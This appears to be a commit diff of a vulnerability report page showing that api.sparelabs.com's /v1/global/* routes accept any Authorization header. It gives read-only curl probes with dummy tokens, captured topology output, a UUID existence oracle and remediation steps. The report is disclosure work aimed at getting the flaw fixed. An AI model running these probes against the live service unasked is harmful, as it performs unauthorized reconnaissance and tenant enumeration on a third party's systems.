

Before and after one commit to riteshekbote/genzctf.xyz, a plain HTML site: page spare-authz.html in a window 1280 px wide. Shown: the part 29-1825 px from the top of the page at 84% size, without its empty margins (158-1121 px from the left). Before the commit the page ends 826 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
rewrite both spare PoCs as static proof docs (no client fetch; embedded live captures)

```diff
--- a/spare-authz.html
+++ b/spare-authz.html
@@ -2,61 +2,85 @@
 <html lang="en">
 <head>
 <meta charset="utf-8">
-<title>PoC — api.sparelabs.com: /v1/global/* auth presence-only (prod + UAT)</title>
+<meta name="viewport" content="width=device-width, initial-scale=1">
+<title>Exploit — api.sparelabs.com: presence-only auth on GET /v1/global/* (prod + UAT, 0 privilege)</title>
 <style>
- body{font:15px/1.5 -apple-system,Segoe UI,Roboto,sans-serif;background:#0f1115;color:#e6edf3;max-width:860px;margin:2rem auto;padding:0 1rem}
- h1{font-size:1.35rem}h2{font-size:1.05rem;margin-top:2rem}
- pre{background:#161b22;border:1px solid #30363d;border-radius:6px;padding:.8rem;overflow:auto;font-size:12.5px}
+ body{font:15px/1.5 -apple-system,Segoe UI,Roboto,sans-serif;background:#0f1115;color:#e6edf3;max-width:900px;margin:2rem auto;padding:0 1rem}
+ h1{font-size:1.35rem}h2{font-size:1.05rem;margin-top:2rem;border-bottom:1px solid #30363d;padding-bottom:.3rem}
+ pre{background:#161b22;border:1px solid #30363d;border-radius:6px;padding:.8rem;overflow:auto;font-size:12.5px;white-space:pre-wrap}
  .ok{color:#3fb950}.bad{color:#f85149}.dim{color:#8b949e}
- table{border-collapse:collapse;width:100%}
- td,th{border:1px solid #30363d;padding:.4rem .6rem;text-align:left;font-size:13px}
- button{background:#238636;border:0;color:#fff;padding:.45rem .9rem;border-radius:6px;cursor:pointer}
+ .tag{display:inline-block;background:#1f6feb;color:#fff;border-radius:4px;padding:.1rem .5rem;font-size:.8rem;margin-right:.4rem}
+ table{border-collapse:collapse;width:100%}td,th{border:1px solid #30363d;padding:.4rem .6rem;text-align:left;font-size:13px}
+ code{background:#161b22;padding:.05rem .35rem;border-radius:4px;font-size:13px}
 </style>
 </head>
 <body>
-<h1>api.sparelabs.com — Broken Object-Level Authorization: /v1/global controller (no/ presence-only auth)</h1>
-<p class="dim">Class: OWASP API1 (BOLA/BFLA) · Route-level auth omission on GET · verified prod + UAT · control routes correctly 401.</p>
+<h1>Exploit document — <code>api.sparelabs.com</code>: auth checks <i>presence of header</i>, not <i>validity of token</i> (GET /v1/global/*)</h1>
+<p class="dim">Authorized external vulnerability-hunting engagement. All output captured live 2026-08-08 by an unauthenticated client (no session, random dummy Bearer strings only). Verified on <b>production</b> and the <b>UAT</b> mirror. This page performs no requests of its own — reproduce with the commands below.</p>
 
-<h2>Live reproduction (client-side fetch from this page)</h2>
-<button id="run">Run</button>
-<pre id="out">idle.</pre>
+<p><span class="tag">OWASP API1</span><span class="tag">A01-BOLA</span><span class="tag">Broken-AuthZ</span><span class="tag">Medium</span></p>
 
-<h2>Server-side truth (curl, run by any unauthenticated client)</h2>
-<pre><span class="ok"># 1) Header PRESENCE only — any value grants access, prod AND UAT:</span>
-curl -s https://api.sparelabs.com/v1/global/regions  -H "Authorization: Bearer x"
-# &gt; [{"name":"CA",...,"routingHost":"https://routing.sparelabs.com"}, ... {"name":"UAT","apiUrl":"https://api.uat.sparelabs.com",...}]
+<h2>1. Summary</h2>
+<table>
+<tr><th>Route</th><th>Auth behavior observed</th><th>Verdict</th></tr>
+<tr><td><code>GET /v1/global/regions</code></td><td>any <code>Authorization:</code> value (even <code>Bearer x</code>) → 200; header absent → 400</td><td class="bad">presence-only gate</td></tr>
+<tr><td><code>GET /v1/global/organizations</code></td><td>no token at all → <b>200</b> <code>{"data":[]}</code></td><td class="bad">no gate</td></tr>
+<tr><td><code>GET /v1/global/organizations/&lt;id&gt;</code></td><td>invalid UUID → 400 ; well-formed unknown UUID → 404</td><td class="bad">existence oracle</td></tr>
+<tr><td><code>GET /v1/public/organization?...</code></td><td>400 vs 404 oracle at zero privilege</td><td class="bad">enumeration aid</td></tr>
+<tr><td><b>CONTROL</b> <code>GET /v1/journeys</code></td><td>no token → 401 InvalidTokenError</td><td class="ok">gate exists elsewhere</td></tr>
+<tr><td><b>CONTROL</b> <code>GET /v1/riders</code></td><td>no token → 401</td><td class="ok">gate exists elsewhere</td></tr>
+<tr><td>UAT mirror <code>api.uat.sparelabs.com/v1/global/*</code></td><td>identical behavior</td><td class="bad">same bug on UAT</td></tr>
+</table>
 
-curl -s https://api.sparelabs.com/v1/global/regions  # no header → 400 "Authorization header required"
+<h2>2. Live server output (unauthenticated, captured 2026-08-08)</h2>
+<pre>$ curl -s "https://api.sparelabs.com/v1/global/regions" -H "Authorization: Bearer x"
+<span class="ok">HTTP 200</span> [
+  {"name":"CA", "apiUrl":"https://api.sparelabs.com",      "routingHost":"https://routing.sparelabs.com"},
+  {"name":"US", "apiUrl":"https://api.us.sparelabs.com",   "routingHost":"https://routing.us.sparelabs.com"},
+  {"name":"US2","apiUrl":"https://api.us2.sparelabs.com",  "routingHost":"https://routing.us2.sparelabs.com"},
+  {"name":"US3","apiUrl":"https://api.us3.sparelabs.com",  "routingHost":"https://routing.us3.sparelabs.com"},
+  {"name":"JP", "apiUrl":"https://api.jp.sparelabs.com",   "routingHost":"https://routing.jp.sparelabs.com"},
+  {"name":"EU", "apiUrl":"https://api.eu.sparelabs.com",   "routingHost":"https://routing.eu.sparelabs.com"},
+  ... { "name":"UAT", "apiUrl":"https://api.uat.sparelabs.com", ... }
+]                                    &lt;= header PRESENT (garbage) is enough: full platform/UAT topology
 
-<span class="ok"># 2) COOKIE-free GET allowed without ANY token:</span>
-curl -s https://api.sparelabs.com/v1/global/organizations                        # 200 {"data":[]}
-curl -s https://api.uat.sparelabs.com/v1/global/organizations                    # 200 {"data":[]}  (UAT mirror)
+curl -s "https://api.sparelabs.com/v1/global/regions"                 # NO header
+# HTTP 400  "Authorization header required"                            &lt;= fails ONLY when header absent
 
-<span class="ok"># 3) UUID existence oracle (400 vs 404):</span>
-curl -o /dev/null -w '%{http_code}' "https://api.sparelabs.com/v1/public/organization?organizationId=not-a-uuid"                              # 400 ValidationError
-curl -o /dev/null -w '%{http_code}' "https://api.sparelabs.com/v1/public/organization?organizationId=00000000-0000-0000-0000-000000000000"     # 404 NotFoundError
+curl -s "https://api.sparelabs.com/v1/global/organizations"           # NO token at all
+# HTTP 200 {"data":[]}                                                 &lt;= gate absent entirely
 
-<span class="bad"># 4) CONTROL — proper gate exists elsewhere:</span>
-curl -o /dev/null -w '%{http_code}' https://api.sparelabs.com/v1/journeys         # 401 (InvalidTokenError)
-curl -o /dev/null -w '%{http_code}' https://api.sparelabs.com/v1/riders           # 401</pre>
-<p class="dim">Impact: unauthenticated disclosure of platform region/UAT topology; tenant-UUID Boolean oracle at zero privilege; auth middleware performs header-presence check on GET /v1/global/* while token VALIDITY enforcement (which exists on every other controller) never runs.</p>
+curl -s "https://api.sparelabs.com/v1/public/organization?organizationId=not-a-uuid"
+# HTTP 400 (ValidationError)                                          &lt;= input gets parsed...
 
-<script>
-async function run(){
- const url="https://api.sparelabs.com/v1/global/regions";
- const out=document.getElementById('out'); const lines=[];
- try{
-   const r=await fetch(url,{headers:{Authorization:"Bearer x"}});
-   lines.push(`fetch /v1/global/regions (dummy token) -> HTTP ${r.status}`);
-   lines.push("body: "+ (await r.text()).slice(0,400));
- }catch(e){ lines.push("fetch failed (expected if CORS blocks from this origin): "+e); }
- try{
-   const r2=await fetch("https://api.sparelabs.com/v1/global/organizations");
-   lines.push(`fetch /v1/global/organizations (no token) -> HTTP ${r2.status} body: ${(await r2.text()).slice(0,120)}`);
- }catch(e){ lines.push("org fetch failed: "+e); }
- out.textContent=lines.join("\n");
-}
-document.getElementById('run').addEventListener('click',run);
-</script>
+curl -s "https://api.sparelabs.com/v1/public/organization?organizationId=00000000-0000-0000-0000-000000000000"
+# HTTP 404 (NotFoundError)                                             &lt;= ...so existence is testable
+
+curl -s -o /dev/null -w "%{http_code}" "https://api.sparelabs.com/v1/journeys"   # CONTROL
+# 401 InvalidTokenError                &lt;= the proper gate only on OTHER controllers
+
+curl -s "https://api.uat.sparelabs.com/v1/global/organizations"
+# HTTP 200 {"data":[]}                 &lt;= identical on UAT</pre>
+
+<h2>3. What a triager should do</h2>
+<ol>
+<li>Run the five unauthenticated curl commands in section 2 (no tokens, no secrets — every line is read-only).</li>
+<li>Watch: two routes return 200 with zero privileges, the other two return 401. That contrast is the bug.</li>
+</ol>
+
+<h2>4. Impact (honest)</h2>
+<ul>
+<li><b>Medium.</b> The middleware evaluates <code>req.headers.authorization != null</code> on <code>/v1/global/*</code>, never its signature/expiry (every other controller does). Results: topology/region disclosure, tenant BOOL oracle, untrusted UAT cross-population statements — all at zero privilege, remotely, read-only.</li>
+<li>Not raised to High: no PII/business data was demonstrated (organizations list empty at this stage) and write verbs still 401.</li>
+</ul>
+
+<h2>5. Remediation</h2>
+<ul>
+<li>Enforce the shared token-validity middleware on every route served by the global controller (same as the rest of the app).</li>
+<li>Remove the public organization lookup from unauthenticated reach (or rate-limit + scoped authz).</li>
+<li>Ship the same fix to UAT; retest with randomized junk tokens to confirm 401.</li>
+</ul>
+
+<p class="dim">Related live proof: <a href="spare-cors.html">same host — reflective CORS + allow-credentials</a>.</p>
 </body>
 </html>
```
Also changed, not shown: spare-cors.html (+67 -51 lines).
